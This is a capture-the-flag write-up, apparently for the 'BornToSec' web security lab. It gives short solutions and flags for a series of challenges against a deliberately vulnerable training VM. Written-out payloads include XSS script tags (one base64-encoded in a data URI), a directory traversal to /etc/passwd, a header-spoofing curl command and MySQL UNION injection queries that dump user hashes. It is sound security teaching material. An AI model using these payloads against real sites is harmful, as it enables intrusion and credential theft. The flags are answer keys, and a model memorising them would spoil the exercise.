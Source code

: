 Cookie md5 admin true

Flag: df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3

---

http://10.13.199.248/?page=survey change vote value to 99999

Flag: 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa

---

http://10.13.199.248/index.php?page=recover inspect element change reset email to own

Flag: 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0

---

Xss on feedback page

`/><script>alert(1);</script>`

Flag: 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e

---

robots.txt
The file robots.txt is often used on webpages to tell web crawlers how they should access or disallow them from parts of the website,
for example to hide irrelevant results from Google search or prevent the server from overloading from crawlers loading content.

http://{ip}/robots.txt shows there are /whatever and /.hidden directories on the website

dirbuster {ip}/whatever/ directory
http://10.12.179.218/whatever/ has "htpasswd" file 
htpasswd file contents: "root:8621ffdbc5698829397d97767ac13db3"
username root, password is md5 encrypted and decrypts to "dragon"
password doesn't work on the login but trying out subdirectories we find {ip}/admin
login on {ip}/admin

Flag: d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff

---

robots.txt 2
/whatever subdirectory

---

request header spoofing
click "© BornToSec" at the bottom of the page, it opens a page with an albatross with a hash in the url, it decrypts to "TAMERE".
inspect element to see comments with hints
"You must cumming from : "https://www.nsa.gov/" to go to the next step"
"Let's use this browser : "ft_bornToSec". It will help you a lot."
curl --referer https://www.nsa.gov/ http://10.12.179.218/\?page\=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c --user-agent "ft_bornToSec" -s | grep flag

Flag: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

---

Directory traversal

Following many of the links there is a pattern of a url with a parameter "?page=" for example: http://{ip}/?page=survey
Trying to add http://{ip}/?page=../ we see interesting alert messages with each added ../ which seems like a sign there is a directory we can access using this.
One of the messages is "You can DO it !!!  :]" and after trying out the common files an attacker would try to access we finally get 
http://{ip}/?page=../../../../../../../etc/passwd which gives the flag.

Flag: b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 

---
Unrestricted file upload of a malicious type
The "Add Image" page does not let you upload files unless they have a .jpg extension.
Looking at the request there is the filename and Content-Type. When a .jpg file is uploaded, it has the Content-Type of image/jpeg. 
However when sending a request with another file extension in the filename but still with Content-Type: image/jpeg we are allowed to upload whatever files we want, 
for example javascript that might then be executed on another user's browser when they view it. Doing this gives us the flag.

Flag: 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
---

Image link XSS
There is an image link on the main page: http://{ip}/?page=media&src=nsa
Changing the src parameter we get a wrong answer page but what's interesting is that with for example &src=test123 the html will contain an object tag with our data: 

![](./object_tag/Ressources/object_tag.png)

By encoding javascript into the url using base64 we can get the flag:

`<script>alert(1);</script>` 

base64-> `PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=`

http://{ip}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=

Flag: 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d

---

Members SQL injection

Trying out different inputs we can find out information about the SQL server used, in this case by just inputting an apostrophe ' we find out the site is usingg MySQL which can aid us in constructing queries.

Trying `1 OR 1=1` works and displays all users. The query might look something like this on the server:

`SELECT name FROM members WHERE id = 1 OR 1=1`

Since 1=1 is always true, it returns all the data in the table.
Trying different inputs we can get information from the error messages.

`1 union select 1,2,3 from user -- -`
>Table 'Member_Sql_Injection.user' doesn't exist

The database is called Member_Sql_Injection

`1 or 1=1 UNION SELECT version(),user()--`
>First name: 5.5.44-0ubuntu0.12.04.1
Surname : borntosec@localhost

We can use this: `1 or 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables` to get information about what kind of data we can now steal from the tables. Let's try the "users" table, using the string doesn't seem to work but encoding users to hex works -> 0x7573657273

`1 or 1=1 UNION SELECT NULL,group_concat(column_name, 0x0a) FROM information_schema.columns where table_name = 0x7573657273`
>user_id,first_name,last_name,town,country,planet,Commentaire,countersign


1 or 1=1 UNION SELECT NULL,group_concat(town,country,planet,Commentaire,countersign) from users
>First name: 
Surname : Honolulu AmericaEARTHAmerca !2b3366bcfd44f540e630d4dc2b9b06d9,BerlinAllemagneEarthIch spreche kein Deutsch.60e9032c586fb422e2c16dee6286cf10,MoscouRussiaEarth????? ????????????? ?????????e083b24a01c483437bcf4a9eea7c1b4d,424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28

`1 or 1=1 UNION SELECT NULL,group_concat(countersign) from users`

>2b3366bcfd44f540e630d4dc2b9b06d9,60e9032c586fb422e2c16dee6286cf10,e083b24a01c483437bcf4a9eea7c1b4d,5ff9d0165b4f92b14994e5c685cdce28

First two and last one are encrypted with MD5
>YesWeCan
oktoberfest
???
FortyTwo

>Decrypt this password -> then lower all the char. Sh256 on it and it's good !

Sha256 on fortytwo -> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

Flag: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

---
1 or 1=1 UNION SELECT NULL,group_concat(column_name, 0x0a) FROM information_schema.columns where table_name = 0x64625f64656661756c74
